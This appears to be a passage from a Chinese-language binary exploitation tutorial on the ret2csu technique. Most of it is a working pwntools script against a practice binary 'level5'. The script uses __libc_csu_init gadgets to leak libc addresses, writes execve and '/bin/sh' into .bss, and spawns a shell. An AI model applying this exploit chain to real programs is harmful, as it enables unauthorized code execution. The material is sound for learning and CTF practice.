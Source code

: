 

##### ret2csu:

 在 64 位程序中，函数的前 6 个参数是通过寄存器传递的，但是大多数时候，我们很难找到每一个寄存器对应的 gadgets。 这时候，我们可以利用 x64 下的 __libc_csu_init 中的 gadgets。这个函数是用来对 libc 进行初始化操作的，而一般的程序都会调用 libc 函数，所以这个函数一定会存在。 

```python
#案例
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
```